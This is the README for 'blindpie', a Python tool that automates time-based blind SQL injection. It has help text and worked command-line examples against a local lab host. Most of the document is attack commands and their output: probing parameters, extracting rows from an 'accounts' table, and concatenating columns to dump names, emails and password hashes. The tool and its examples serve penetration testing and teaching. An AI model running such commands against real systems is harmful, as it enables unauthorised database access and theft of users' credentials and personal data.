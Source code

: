 # blindpie

`blindpie` is a simple Python script to automate time-based blind SQL injections.<br>

It can be used when the target doesn't print any error or any feedback whatsoever.

It should work fine injecting in SELECT, DELETE, and UPDATE queries. Injections in INSERT queries are supported only for parameters which are unquoted (numeric values).

![Demo](/demo/demo.gif)

## Usage

Use the `--help` command to show the help message:

```
 _     _ _           _       _      
| |   | (_)         | |     (_)     
| |__ | |_ _ __   __| |_ __  _  ___
| '_ \| | | '_ \ / _` | '_ \| |/ _ \
| |_) | | | | | | (_| | |_) | |  __/
|_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                     | |           
                     |_|           

usage: blindpie.py [-h] -u URL -p PARAMS [PARAMS ...] -d DEFAULT [DEFAULT ...]
                 (--post | --get) [-M M] [-T T]
                 {test,attack} ...

A simple tool to automate time-based blind SQL injections.

positional arguments:
{test,attack}

optional arguments:
-h, --help            show this help message and exit
-u URL, --url URL     url of the target
-p PARAMS [PARAMS ...], --params PARAMS [PARAMS ...]
                      parameters for the requests
-d DEFAULT [DEFAULT ...], --default DEFAULT [DEFAULT ...]
                      default values for the parameters
--post                use method POST
--get                 use method GET
-M M                  attack mode (from 0, the least reliable but the
                      fastest, to 3, the most reliable but the slowest)
-T T                  number of threads to create when getting multiple rows

Note: the default values must be of the same type of data of the parameters
(use numbers for the parameters which are numbers, strings otherwise).
```

The script provides two modes of operation: the <i>test mode</i> and the <i>attack mode</i>.

### Test mode

The <i>test mode</i> is used to test which parameters of the GET/POST request could be vulnerable to SQL injection.

This is the help message for the <i>test mode</i>:

```
usage: blindpie.py test [-h] --test

optional arguments:
  -h, --help  show this help message and exit
  --test      test for vulnerabilities
```

Use the `--test` flag to test the parameters.

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind_escaped.php` accepts POST requests with parameters `to` and `msg`, where the former is an integer and the latter is a string. The `-d` parameter is used to set the default value for the parameter of the request and to distinguish between numeric values (which in queries are unquoted) and strings (in queries are quoted). Use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post test --test
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.019 sec (done in 0.049 sec)
[*] testing params: |████████████████████████████████████████| 100.0% complete
> RESULTS:
[*] to seems to be vulnerable
[*] msg doesn't seem to be vulnerable
[*] all done in 0.063 sec
```

The script tests each parameter of the request and shows if it seems to be vulnerable or not.

### Attack mode

The <i>attack mode</i> is used to extract data from the database by exploiting vulnerable parameters.

This is the help message for the <i>attack mode</i>:

```
usage: blindpie.py attack [-h] --param PARAM --table TABLE --column COLUMN
                          --row ROW [--rows ROWS]

optional arguments:
  -h, --help       show this help message and exit
  --param PARAM    vulnerable parameter to exploit
  --table TABLE    name of the table from which to select
  --column COLUMN  name of the column to select
  --row ROW        index of the row to select
  --rows ROWS      number of rows to select
```

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind.php` accepts GET requests with a parameter named `email`, which is a string. The `-d` parameter is used to set the default value for the parameter. As said before, use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

In this case I'm going to extract the rows from 0 to 3 of the `first_name` column from the table `accounts` by exploiting the `email` parameter of the GET request:

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T4 attack --table accounts --column first_name --param email --row 0 --rows 4
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.031 sec (done in 0.096 sec)
[*] row 0 length is 6
[*] row 1 length is 4
[*] row 2 length is 6
[*] row 3 length is 6
[*] getting 4 rows: |████████████████████████████████████████| 100.0% complete (34.583 sec)
> RESULTS:
Arthur
Ford
Tricia
Zaphod
[*] all done in 34.583 sec
```

Note #1: use the `-M` parameter to set the reliability of the script. The value goes from 0 (the least reliable but the fastest) to 3 (the most reliable but the slowest).

Note #2: use the `-T` parameter to set the number of rows to extract concurrently. <strong>Multithreading is suggested during local analysis only. It seems to be less reliable for non local targets.</strong>

The script will test each character of each row and will print the rows found.

### Trick

You can extract multiple columns at a time by concatenating the values. Use the `concat` function as the column name:

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T10 attack --table accounts --column "concat(id, char(32), first_name, char(32), last_name, char(32), email, char(32), password)" --param email --row 0 --rows 10
  _     _ _           _       _
 | |   | (_)         | |     (_)
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |
                       |_|

[*] avg response time is 0.018 sec (done in 0.054 sec)
[*] row 0 length is 71
[*] row 1 length is 70
[*] row 2 length is 75
[*] row 3 length is 77
[*] row 4 seems to be empty
[*] row 5 seems to be empty
[*] row 6 seems to be empty
[*] row 7 seems to be empty
[*] row 8 seems to be empty
[*] row 9 seems to be empty
[*] getting 10 rows: |████████████████████████████████████████| 100.0% complete (373.877 sec)
> RESULTS:
1 Arthur Dent arthur@guide.com d00ee262cdcbe7543210bb85f6f1cac257b4e994
2 Ford Prefect ford@guide.com 30f5cc99c17426a0d28acf8905c6d776039ad022
3 Tricia McMillan tricia@guide.com bcb3358e273b5772ee0ae1799b612e13cc726b04
4 Zaphod Beeblebrox zaphod@guide.com 0c38530eaca4dbc0f49c459c0c52b362f14215c3
[empty]
[empty]
[empty]
[empty]
[empty]
[empty]
[*] all done in 373.877 sec
```

Note #1: a row can't be longer than `MAX_ROW_LENGTH` (by default is 128) or it will be ignored and considered empty.

Note #2: `char(32)` is the 'space' character.

## Authors

* **Alessio Vierti** - *Initial work*

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details

